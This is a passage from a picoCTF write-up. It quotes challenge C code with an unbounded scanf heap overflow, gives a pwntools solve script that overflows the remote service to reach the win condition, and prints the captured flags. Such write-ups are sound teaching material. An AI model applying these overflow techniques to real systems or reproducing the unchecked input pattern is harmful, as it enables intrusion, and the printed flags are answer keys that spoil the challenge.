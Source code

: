 ```py
p.interactive()
```
Running this script pops a shell.

Type the `ls` command where there is a `flag.txt` file and use `cat` to read the flag.


``🚩:`` **picoCTF{G07_G07?_7a2369d3}**

### Heap 0 [50 PTS]


There is a win condition which prints the flag:

```c
if (strcmp(safe_var, "bico") != 0) {
    printf("\nYOU WIN\n");

    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}
```

There is also a buffer overflow:

```c
printf("Data for buffer: ");
fflush(stdout);
scanf("%s", input_data);
```
Since we can write any number of bytes we can just write a bunch of bytes and it will overflow into the next chunk on the heap.

To win, `safevar` needs to be anything but `bico`. To solve just send a bunch of bytes.

Final solve script:

```py
from pwn import ELF, p64, process, context, ROP, gdb, remote

context.binary = binary = ELF("chal")
# p = process()
p = remote("tethys.picoctf.net", 65235)

p.sendline(b"2")

p.sendline(b"a" * 50)

p.sendline(b"4")

p.interactive()
```
``🚩:`` **picoCTF{my_first_heap_overflow_4fa6dd49}**

